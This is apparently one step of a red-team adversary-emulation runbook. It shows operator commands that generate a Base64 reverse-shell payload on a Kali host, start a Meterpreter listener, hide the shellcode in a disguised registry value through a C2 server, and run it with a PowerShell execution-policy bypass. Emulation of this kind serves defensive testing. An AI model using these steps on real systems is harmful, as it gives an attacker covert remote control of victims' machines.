 # Step 3

## Shellcode Generation

On Kali box (192.168.0.4):

`./create-payload.sh`

This will generate a Base64 encoded payload called reverseencoded.txt.

## Setup Meterpreter Handler

On Kali box (192.168.0.4):

`sudo msfconsole -r <path_to_this_dir>/start-tcp-listener.rc`

**Note:** Update these instructions with the actual path to `start-tcp-listener.rc` once fully known.

## Write Shellcode To Registry

Through C2 Server:

`exec-cmd 'REG ADD "HKCU\Software\InternetExplorer\AppDataLow\Software\Microsoft\InternetExplorer" /v "{018247B2CAC14652E}" /t REG_SZ /d <paste content from reverseencoded.txt>'`

**Note:** The original registry path from CTI doesn't appear to exist so chose this one. Also altereted the key name. Also instead of pasting in the future can just paste content in the command or figure out a way to automate.

## Run Shellcode via reverse.ps1

`exec-cmd "powershell.exe -ExecutionPolicy Bypass -NoExit -File reverse.ps1"`
